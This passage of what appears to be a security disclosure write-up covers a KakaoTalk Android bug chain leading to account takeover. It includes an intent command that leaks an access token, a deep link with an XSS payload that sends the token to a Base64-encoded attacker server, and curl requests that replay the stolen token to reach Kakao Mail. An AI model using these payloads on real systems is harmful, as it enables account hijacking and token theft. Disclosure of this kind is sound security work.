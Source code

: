 This included `javascript://` and `data://` schemes which allow to run JavaScript. Also, it supported `content://` URLs, so a URL such as `content://com.kakao.talk.FileProvider/onepass/PersistedInstallation.W0RFRkFVTFRd+MTo1NTIzNjczMDMxMzc6YW5kcm9pZDpiNjUwZmVmOGI2MDY1MzVm.json` opens KakaoTalk's Firebase Installation configuration in the `MyProfileSettingsActivity` WebView.

Last but not least, it leaked an access token in the `Authorization` HTTP header. For example, a command such as `adb shell am start "intent:#Intent\;component=com.kakao.talk/.activity.setting.MyProfileSettingsActivity\;S.EXTRA_URL=https://foo.bar\;end"` would send the token to `https://foo.bar`.

What could we do with this token? Maybe taking over a victim's KakaoTalk account?

## Deep Link to Kakao Mail Account Takeover

As explained in the previous section the `MyProfileSettingsActivity` is not exported, but we could start it via `CommerceBuyActivity` with the trick explained above. By crafting a malicious deep link we could send the access token to an attacker-controlled server:

```
kakaotalk://buy/auth/0/cleanFrontRedirect?returnUrl=https://m.shoppinghow.kakao.com/m/product/Q24620753380/q:"><img src=x onerror="document.location=atob('aHR0cDovLzE5Mi4xNjguMTc4LjIwOjU1NTUvZm9vLmh0bWw=');">
```

Let's break it down:

- `kakaotalk://buy` fires up `CommerceBuyActivity`
- `/auth/0/cleanFrontRedirect?returnUrl=` "compiles" to `https://buy.kakao.com/auth/0/cleanFrontRedirect?returnUrl=` and redirects to any `kakao.com` domain
- `https://m.shoppinghow.kakao.com/m/product/Q24620753380/q:` had the XSS issue
- `"><img src=x onerror="document.location=atob('aHR0cDovLzE5Mi4xNjguMTc4LjIwOjU1NTUvZm9vLmh0bWw=');">` is the XSS payload. We had to Base64 encode the "attacker URL" to bypass some sanitization checks.

Now, in possession of the access token what could we do with it? Well, what about using it to take over the victim's Kakao Mail account that was used for KakaoTalk registration!

> **_NOTE:_** If the victim doesn't have a Kakao Mail account it's possible to create a new Kakao Mail account on her/his behalf. This is interesting because creating a new Kakao Mail account overwrites the user's previous registered email-address with no additional checks. Scroll to the end of this section to check out how to do that.

First, we needed to check if the victim actually uses Kakao Mail:

```bash
curl -i -s -k -X $'GET' \
    -H $'Host: katalk.kakao.com' -H $'Accept-Language: en' -H $'User-Agent: KT/10.4.3 An/11 en' -H $'Authorization: 64f03846070b4a9ea8d8798ce14220ce00000017017793161400011gzCIqV_7kN-deea3b5dc9cddb9d8345d95438207fc0981c2de80188082d9f6a8849db8ea92e' -H $'A: android/9.5.0/en' -H $'C: a327a1ad-b417-499a-abf7-48da89076e7c' -H $'Accept-Encoding: json, deflate, br' -H $'Connection: close' \
    $'https://katalk.kakao.com/android/account/more_settings.json?os_version=30&model=SDK_GPHONE_ARM64&since=1693786891&lang=en&vc=2610380&email=2&adid=&adid_status=-1'
```

Next, we had to grab another access token to access Kakao Mail:

```bash
curl -i -s -k -X $'POST' \
    -H $'Host: api-account.kakao.com' -H $'Accept-Language: en' -H $'User-Agent: KT/10.4.3 An/11 en' -H $'Authorization: 64f03846070b4a9ea8d8798ce14220ce00000017017793161400011gzCIqV_7kN-deea3b5dc9cddb9d8345d95438207fc0981c2de80188082d9f6a8849db8ea92e' -H $'A: android/10.4.3/en' -H $'C: 2cc348d0-b7f7-464c-b72b-1e3f66a04362' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 174' -H $'Accept-Encoding: json, deflate, br' -H $'Connection: close' \
    --data-binary $'key_type=talk_session_info&key=64f03846070b4a9ea8d8798ce14220ce00000017017793161400011gzCIqV_7kN-deea3b5dc9cddb9d8345d95438207fc0981c2de80188082d9f6a8849db8ea92e&referer=talk' \
    $'https://api-account.kakao.com/v1/auth/tgt'
```

